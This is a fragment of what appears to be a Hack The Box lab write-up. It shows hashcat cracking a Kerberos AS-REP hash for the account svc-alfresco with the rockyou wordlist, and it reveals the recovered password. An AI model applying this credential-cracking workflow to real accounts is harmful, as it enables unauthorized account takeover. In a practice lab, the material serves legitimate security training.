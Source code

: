 ```c

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Temperature abort trigger set to 90c

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=1 -D VENDOR_ID=32 -D CUDA_ARCH=806 -D AMD_ROCM=0 -D VECT_SIZE=1 -D DEVICE_TYPE=4 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.089e1f35.kernel not found in cache! Building may take a while...


Dictionary cache hit:
* Filename..: /opt/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:10789994ae3d40e257d6c0e341ae6f8c$4112d63482946a571be87d25346e273412f1e2eefedaada1fbbd53eafd84b4234072c65cade3a75a6d4f0b27336d8fd8a34e6a0c892df2018ec81b3dd7777cb41f56266ef96257039e2f0698f9205c10ad29152a730d3c33d76c5e80c1a70ecc63298357541c87c1c13afb74e2388a912bd6666b3fa7e1ced044a117bd1b365bbc878b72cc181330082c01617077c2a17485dbbb7ae97b58d2317dbc667c540f6914140929dcb26c7b1148e29b9a47b30eafe1f11d461a8a61cce59e2c3295698ef1599b2412670fb1e4b70894eecf172deaa791cd407d0f76bb57ef92c68aeb8dd0ee55b3b9:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:10789994ae3d40...55b3b9
Time.Started.....: Sun Mar 27 12:56:43 2022 (1 sec)
Time.Estimated...: Sun Mar 27 12:56:44 2022 (0 secs)
Guess.Base.......: File (/opt/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 18155.2 kH/s (11.80ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4194304/14344385 (29.24%)
Rejected.........: 0/4194304 (0.00%)
Restore.Point....: 3145728/14344385 (21.93%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: tomabogu -> rogans
Hardware.Mon.#1..: Temp: 59c Util: 45% Core:1665MHz Mem:5500MHz Bus:4

Started: Sun Mar 27 12:56:39 2022
Stopped: Sun Mar 27 12:56:44 2022
                                    
```

Seems like the password for the account ```HTB.LOCAL/svc-alfresco``` is ```s3rvice```
